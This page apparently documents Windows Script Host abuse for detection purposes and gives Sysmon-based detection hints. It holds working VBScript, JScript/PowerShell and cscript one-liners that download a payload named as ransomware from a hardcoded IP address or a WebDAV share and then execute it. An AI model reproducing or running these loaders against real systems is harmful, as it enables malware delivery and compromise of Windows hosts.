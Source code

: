 ## WSH

> **Windows Script Hos**t (WSH)  is an automation technology for Microsoft Windows operating systems that provides scripting abilities comparable to batch files, but with a wider range of supported features
>
> **It is language-independent** in that it can make use of different Active Scripting language engines. By default, it interprets and runs plain-text **JScript** (.JS and .JSE files) and **VBScript** (.VBS and .VBE files). **Visual Basic for Applications** (VBA) is a third default scripting engine, installed with Microsoft Office.
>
> 
>
> -- Wikipedia



WSH uses 2 different executables Wscript.exe (Support GUI )and Cscript.exe(CLI)

WSH supports 

- VBScript
- JScript

those scripting languages are like any languages, could be used to do solve some problem like any programming language or use in malicious way.

many languages need Interpreter to be able to run, any most of those interpreters are not installed by default, unlike WSH which is pre-installed on All windows version, so the langauge that WSH support were misused to create malicious scripts


**VBScript**

```vbscript
Set wshShell = CreateObject( "WScript.Shell" )
strUserName = wshShell.ExpandEnvironmentStrings( "%USERNAME%" )
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://18.185.124.52/ransinvoke.exe", False
xHttp.Send

with bStrm
    .type = 1 '//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\Users\"& strUserName &"\AppData\Local\Temp\ransomware.exe", 2 '//overwrite
end with
Set objShell = Wscript.CreateObject("Wscript.Shell")
objShell.run("C:\Users\"& strUserName &"\AppData\Local\Temp\ransomware.exe")
```

Download ransinvoke.exe from internet and save it to the disk, then run it.



**JScript**

```vbscript
a = new ActiveXObject('Wscript.Shell');
cmd = "powershell -ep Bypass -nop -noexit -c ([System.Reflection.Assembly]::Load((New-Object Net.WebClient).DownloadData('http://18.185.124.52/ransinvoke.exe')).EntryPoint.Invoke($Null,$Null))";
a.Run(cmd,0);

```

```powershell
`cscript ``//E``:jscript \\webdavserver\folder\payload.txt`
```

Process performing network call: **svchost.exe**
Payload written on disk: **WebDAV client local cache**



### Detection

- sysmon
  - Process Create
    - Cscript.exe or Wscript.exe with command line contains the file which will be loaded



![Mermaid](https://raw.githubusercontent.com/karemfaisal/SMUC---Simplified-Mitre-Use-Cases/master/Rundll32/Misc/Mermaid.jpg)

### Reference

[Reference for VBScript] https://ss64.com/vb

[Many one Liners] https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/ 

